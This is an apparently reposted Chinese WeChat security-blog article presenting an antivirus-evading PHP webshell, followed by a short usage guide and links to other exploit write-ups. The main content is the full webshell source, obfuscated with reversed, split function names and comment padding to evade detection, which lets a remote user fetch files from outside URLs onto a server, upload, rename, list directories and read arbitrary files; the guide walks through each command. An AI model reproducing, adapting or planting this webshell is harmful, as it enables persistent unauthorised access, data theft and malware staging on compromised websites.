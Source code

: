 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/FH1Z6NMk0QFDsfw989tJxQ)

> 文章来源: 极安中国 
> 
> 链接地址：https://bbs.secgeeker.net/thread-1624-1-1.html

免杀马  

```
<?php error_reporting(0);$sr="st"./*+/*+*/"rr"/*+/*+*/."ev";$id=$sr/*+/*+*/("ri"."d_"."si");$rn=$sr/*+/*+*/("em"."an"."er");$dn=$sr/*+/*+*/("em"."anr"."id");$od=$sr/*+/*+*/("ri"."dne"."po");$rd=$sr/*+/*+*/("ri"."dda"."er");$cd=$sr/*+/*+*/("ri"."deso"."lc");$fpc=$sr/*+/*+*/("stn"."etn"."oc_t"."up_e"."lif");$fgc=$sr/*+/*+*/("stn"."etn"."oc_t"."eg_e"."lif");$muf=$sr/*+/*+*/("eli"."f_d"."eda"."olp"."u_e"."vom");$dlform='<form method="post">FN:<input ></form>';if($_GET['act']=='dl'){echo($dlform);if($_SERVER['REQUEST_METHOD']=='POST'){$fpc/*+/*+*/($_POST['fn'],$fgc/*+/*+*/($_POST['url']));}exit;}if($_GET['act']=='ul'){echo($ulform);if($_SERVER['REQUEST_METHOD']=='POST'){$sp=empty($_POST['sp'])?'./':$_POST['sp'].'/';$muf/*+/*+*/($/*+/*+*/{"_F"."IL"."ES"}["uf"]["tmp_name"],$sp.$/*+/*+*/{"_F"."IL"."ES"}["uf"]["name"]);}exit;}if($_GET['act']=='rn'){echo($rnform);if($_SERVER['REQUEST_METHOD']=='POST'){$rn/*+/*+*/($_POST['on'],$_POST['nn']);}exit;}if($_GET['act']=='gp'){echo($dn/*+/*+*/(__FILE__));exit;}if($_GET['act']=='lp'){echo($lpform);if($_SERVER['REQUEST_METHOD']=='POST'){$dp=$_POST['dp'].'/';$h=$od/*+/*+*/($dp);while(($fn=$rd/*+/*+*/($h))!==false){if($id/*+/*+*/($dp.$fn)){$t1.='D '.$fn.'<br>';}else{$t2.='  '.$fn.'<br>';}}$cd/*+/*+*/($dp);echo($dp.'<br>'.$t1.$t2);}exit;}if($_GET['act']=='sf'){echo($sfform);if($_SERVER['REQUEST_METHOD']=='POST'){$df=$_POST['df'];echo('<textarea style="width:100%;height:100%;" wrap="off">'.$fgc/*+/*+*/($df).'</textarea>');}exit;}?>
```

ReadMe:

**远程下载文件：**  

```
http://127.0.0.1/1.php?act=dl
FN 保存的文件名
URL下载文件的地址：http://127.0.0.1/111.txt 、123.txt
核心代码：
file_put_contents($fn,file_get_contents($url));
```

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTGa92IpgPLhHuYlIUJbkOzcb5bnkUwJUqpyzyGB3joDzI3KOqoGEozECybNibPlwFYYaMUwL0pLgVw/640?wx_fmt=png)

  
**上传文件：**  
http://127.0.0.1/1.php?act=ul  
sp 输入相对路径：./ ../  

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTGa92IpgPLhHuYlIUJbkOzc95qiaia7fdpGqu4akS4ic2nr0xSglRr3PibyviaAsroJ9OhW5IoBZdXHt5Q/640?wx_fmt=png)

**重命名文件：**  
http://127.0.0.1/1.php?act=rn  
ON 原文件名  
NN 新文件名  

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTGa92IpgPLhHuYlIUJbkOzcOTCMTxEJ6rsc9axuoYIX4gEXRhYOuBVRTmkj1tvEbCiagjesAm9yRnQ/640?wx_fmt=png)

**文件绝对路径**  
http://127.0.0.1/1.php?act=gp  

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTGa92IpgPLhHuYlIUJbkOzcog4GZyNKV3rgQVuCs3DCtwMwtcYXLp4ISjibHfwsJNjd2gqnC0rj46Q/640?wx_fmt=png)

**列目录：**  
http://127.0.0.1/1.php?act=lp  
dp: 路径地址  

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTGa92IpgPLhHuYlIUJbkOzcODvCzgcmyCVeQROEbeL189yYOZc3ib9ibf5EJ7TEVOibibqzEgTjaM0gQQ/640?wx_fmt=png)

**查看文件内容：**  
http://127.0.0.1/1.php?act=sf  
DF: 路径地址  

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTGa92IpgPLhHuYlIUJbkOzcmQXicPHXNd3op1GO5eeW8NSb7lFsFUyKVSlW3mEyqkHJ3soLDfKvic6w/640?wx_fmt=png)

****【往期推荐】****  

[【内网渗透】内网信息收集命令汇总](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485796&idx=1&sn=8e78cb0c7779307b1ae4bd1aac47c1f1&chksm=ea37f63edd407f2838e730cd958be213f995b7020ce1c5f96109216d52fa4c86780f3f34c194&scene=21#wechat_redirect)  

[【内网渗透】域内信息收集命令汇总](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485855&idx=1&sn=3730e1a1e851b299537db7f49050d483&chksm=ea37f6c5dd407fd353d848cbc5da09beee11bc41fb3482cc01d22cbc0bec7032a5e493a6bed7&scene=21#wechat_redirect)

[【超详细 | Python】CS 免杀 - Shellcode Loader 原理 (python)](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247486582&idx=1&sn=572fbe4a921366c009365c4a37f52836&chksm=ea37f32cdd407a3aea2d4c100fdc0a9941b78b3c5d6f46ba6f71e946f2c82b5118bf1829d2dc&scene=21#wechat_redirect)

[【超详细 | Python】CS 免杀 - 分离 + 混淆免杀思路](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247486638&idx=1&sn=99ce07c365acec41b6c8da07692ffca9&chksm=ea37f3f4dd407ae28611d23b31c39ff1c8bc79762bfe2535f12d1b9d7a6991777b178a89b308&scene=21#wechat_redirect)  

[【超详细】CVE-2020-14882 | Weblogic 未授权命令执行漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485550&idx=1&sn=921b100fd0a7cc183e92a5d3dd07185e&chksm=ea37f734dd407e22cfee57538d53a2d3f2ebb00014c8027d0b7b80591bcf30bc5647bfaf42f8&scene=21#wechat_redirect)

[【超详细 | 附 PoC】CVE-2021-2109 | Weblogic Server 远程代码执行漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247486517&idx=1&sn=34d494bd453a9472d2b2ebf42dc7e21b&chksm=ea37f36fdd407a7977b19d7fdd74acd44862517aac91dd51a28b8debe492d54f53b6bee07aa8&scene=21#wechat_redirect)

[【漏洞分析 | 附 EXP】CVE-2021-21985 VMware vCenter Server 远程代码执行漏洞](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247487906&idx=1&sn=e35998115108336f8b7c6679e16d1d0a&chksm=ea37eef8dd4067ee13470391ded0f1c8e269f01bcdee4273e9f57ca8924797447f72eb2656b2&scene=21#wechat_redirect)

[【CNVD-2021-30167 | 附 PoC】用友 NC BeanShell 远程代码执行漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247487897&idx=1&sn=6ab1eb2c83f164ff65084f8ba015ad60&chksm=ea37eec3dd4067d56adcb89a27478f7dbbb83b5077af14e108eca0c82168ae53ce4d1fbffabf&scene=21#wechat_redirect)  

[【奇淫巧技】如何成为一个合格的 “FOFA” 工程师](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485135&idx=1&sn=f872054b31429e244a6e56385698404a&chksm=ea37f995dd40708367700fc53cca4ce8cb490bc1fe23dd1f167d86c0d2014a0c03005af99b89&scene=21#wechat_redirect)
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

[记一次 HW 实战笔记 | 艰难的提权爬坑](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247484991&idx=2&sn=5368b636aed77ce455a1e095c63651e4&chksm=ea37f965dd407073edbf27256c022645fe2c0bf8b57b38a6000e5aeb75733e10815a4028eb03&scene=21#wechat_redirect)

[【超详细】Microsoft Exchange 远程代码执行漏洞复现【CVE-2020-17144】](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485992&idx=1&sn=18741504243d11833aae7791f1acda25&chksm=ea37f572dd407c64894777bdf77e07bdfbb3ada0639ff3a19e9717e70f96b300ab437a8ed254&scene=21#wechat_redirect)

[【超详细】Fastjson1.2.24 反序列化漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247484991&idx=1&sn=1178e571dcb60adb67f00e3837da69a3&chksm=ea37f965dd4070732b9bbfa2fe51a5fe9030e116983a84cd10657aec7a310b01090512439079&scene=21#wechat_redirect)

_**走过路过的大佬们留个关注再走呗**_![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTEATexewVNVf8bbPg7wC3a3KR1oG1rokLzsfV9vUiaQK2nGDIbALKibe5yauhc4oxnzPXRp9cFsAg4Q/640?wx_fmt=png)

**往期文章有彩蛋哦****![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTHtVfEjbedItbDdJTEQ3F7vY8yuszc8WLjN9RmkgOG0Jp7QAfTxBMWU8Xe4Rlu2M7WjY0xea012OQ/640?wx_fmt=png)**  

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTECbvcv6VpkwD7BV8iaiaWcXbahhsa7k8bo1PKkLXXGlsyC6CbAmE3hhSBW5dG65xYuMmR7PQWoLSFA/640?wx_fmt=png)

一如既往的学习，一如既往的整理，一如即往的分享。![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5icl7QVywL8iaGT0QBGpOwgD1IwN0z9JicTRvzvnsJicNRr2gRvJib6jKojzC5CJJsFPkEbZQJ999HrH5Gw/640?wx_fmt=png)  

“**如侵权请私聊公众号删文**”

公众号